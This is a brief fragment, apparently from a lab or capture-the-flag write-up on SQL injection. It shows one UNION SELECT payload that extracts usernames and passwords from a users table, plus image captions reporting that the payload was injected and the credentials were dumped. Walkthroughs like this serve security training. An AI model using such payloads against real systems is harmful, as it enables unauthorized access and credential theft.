 <mark style="color:yellow;">`' UNION SELECT USERNAME_ITIFHM,PASSWORD_ZYWWZK FROM USERS_RWXGMM`</mark>

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption><p>Final SQLi payload is injected</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Credentials are dumped!</p></figcaption></figure>
